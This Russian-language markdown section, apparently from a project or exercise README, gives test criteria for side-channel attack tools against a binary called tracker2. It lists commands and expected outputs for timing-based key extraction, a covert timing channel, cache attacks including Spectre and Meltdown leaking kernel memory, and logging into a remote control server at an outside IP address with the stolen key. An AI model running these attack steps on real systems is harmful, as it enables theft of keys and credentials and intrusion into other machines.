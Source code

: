 
## 🧪 Критерии тестирования

### Тесты Timing Attack
```bash
# Обнаружение длины ключа
./timing_attack --discover-length /usr/bin/tracker2
# Ожидается: 32 байта

# Извлечение символа (первый байт)
./timing_attack --extract-byte 0 /usr/bin/tracker2
# Ожидается: 0x41 ('A')

# Полное извлечение ключа
./timing_attack --extract-full /usr/bin/tracker2
# Ожидается: API_KEY_MOONLIGHT_TRACKER2_v2.01 (за ~5-6 минут)

# Скрытый timing канал
./timing_attack --covert-send "EVADE" <receiver_pid>
# Ожидается: Receiver декодирует "EVADE" (40 бит, ~2.5 секунды)
```

### Тесты Cache Side-Channel
```bash
# Flush+Reload (AES ключ)
./cache_attack --flush-reload /usr/bin/tracker2 0x7f8a4c400000
# Ожидается: Извлечён AES master key (2b7e1516 28aed2a6 abf71588 09cf4f3c)

# Prime+Probe (cache sets)
./cache_attack --prime-probe /usr/bin/tracker2
# Ожидается: Доступ к cache sets #3, #5, #7, #9, #12, #15 (S-box паттерн)

# Spectre (спекулятивная утечка)
./cache_attack --spectre /usr/bin/tracker2 <secret_address>
# Ожидается: Секрет вне границ утёк через cache

# Meltdown (память ядра)
./cache_attack --meltdown <kernel_address>
# Ожидается: Утечка памяти ядра (учётные данные tracker2: UID=0, ROOT)
```

### Тесты проникновения в C2
```bash
# Аутентификация
./c2_client --authenticate 185.220.101.42:8080 "API_KEY_MOONLIGHT_TRACKER2_v2.01"
# Ожидается: HTTP 200, возвращён session token

# Запрос операций
./c2_client --query-operations <session_token>
# Ожидается: Детали deep scan (OP-2024-12-25-001, status: SCHEDULED)

# Отмена сканирования
./c2_client --cancel-scan OP-2024-12-25-001 <session_token>
# Ожидается: Status: PENDING_APPROVAL → APPROVED → CANCELLED
```

